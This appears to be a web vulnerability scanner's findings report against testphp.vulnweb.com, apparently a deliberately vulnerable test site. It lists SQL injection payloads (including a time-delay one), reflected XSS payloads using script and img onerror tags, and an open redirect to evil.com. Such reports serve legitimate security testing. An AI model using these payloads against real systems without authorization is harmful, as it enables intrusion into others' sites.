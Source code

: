 ## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/userinfo.php
- **Payload:** `' OR 1=1 --`
- **Severity:** High
- **Description:** Database error message detected

## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/userinfo.php
- **Payload:** `" OR "1"="1`
- **Severity:** High
- **Description:** Database error message detected

## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/userinfo.php
- **Payload:** `'; WAITFOR DELAY '0:0:5' --`
- **Severity:** High
- **Description:** Database error message detected

## Reflected XSS
- **URL:** http://testphp.vulnweb.com/search.php?test=query
- **Payload:** `<script>alert(1)</script>`
- **Severity:** High
- **Description:** Payload reflected unescaped in response

## Reflected XSS
- **URL:** http://testphp.vulnweb.com/search.php?test=query
- **Payload:** `'"><img src=x onerror=alert(1)>`
- **Severity:** High
- **Description:** Payload reflected unescaped in response

## Reflected XSS
- **URL:** http://testphp.vulnweb.com/guestbook.php
- **Payload:** `<script>alert(1)</script>`
- **Severity:** High
- **Description:** Payload reflected unescaped in response

## Reflected XSS
- **URL:** http://testphp.vulnweb.com/guestbook.php
- **Payload:** `'"><img src=x onerror=alert(1)>`
- **Severity:** High
- **Description:** Payload reflected unescaped in response

## Open Redirect
- **URL:** http://testphp.vulnweb.com/Mod_Rewrite_Shop?next=https://evil.com
- **Payload:** `https://evil.com`
- **Severity:** Medium
- **Description:** Open redirect detected
